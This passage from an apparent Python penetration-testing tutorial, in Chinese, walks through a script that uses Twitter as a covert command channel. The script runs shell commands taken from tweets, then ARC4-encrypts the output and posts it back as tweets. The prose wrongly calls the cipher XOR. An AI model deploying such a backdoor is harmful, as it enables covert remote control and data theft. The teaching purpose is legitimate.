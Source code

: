 脚本进行中的示例如下：

![如何做…](img/B04044_08_02.jpg)

## 它是如何工作的…

我们像往常一样导入我们的库。有很多 Twitter 的 Python 库；我只是使用了[`code.google.com/p/python-twitter/`](https://code.google.com/p/python-twitter/)上可用的标准 twitter API。代码如下：

```py
from twitter import *
import os
from Crypto.Cipher import ARC4
import subprocess
import time
```

为了满足 Twitter 的身份验证要求，我们需要从[developer.twitter.com](http://developer.twitter.com)的**App 页面**中检索**App 令牌**、**App 密钥**、**用户令牌**和**用户密钥**。我们将它们分配给变量，并设置我们与 Twitter API 的连接：

```py
token = ''
token_key = ''
con_secret = ''
con_secret_key = ''
t = Twitter(auth=OAuth(token, token_key, con_secret, con_secret_key))
```

我们设置一个无限循环：

```py
while 1:
```

我们调用已设置的帐户的用户时间线。这个应用程序必须对 Twitter 帐户具有读写权限很重要。然后我们取最近推文的最后一条文本。我们需要将其编码为 UTF-8，因为通常有一些字符，普通编码无法处理：

```py
user = t.statuses.user_timeline()
command = user[0]["text"].encode('utf-8')
```

然后我们取最后一条推文作为我们加密的密钥。我们将其编码为`hex`以避免出现空格匹配空格的情况：

```py
key = user[1]["text"].encode('hex')
enc = ARC4.new(key)
```

我们通过使用`subprocess`函数执行操作。我们使用预设的 XOR 加密加密输出，并将其编码为 base64：

```py
response = subprocess.check_output(command.split())
enres = enc.encrypt(response).encode("base64")
```

我们将加密和编码的响应分成 140 个字符的块，以适应 Twitter 的字符限制。对于每个块，我们创建一个 Twitter 状态：

```py
for i in xrange(0, len(enres), 140):
  t.statuses.update(status=enres[i:i+140])
```
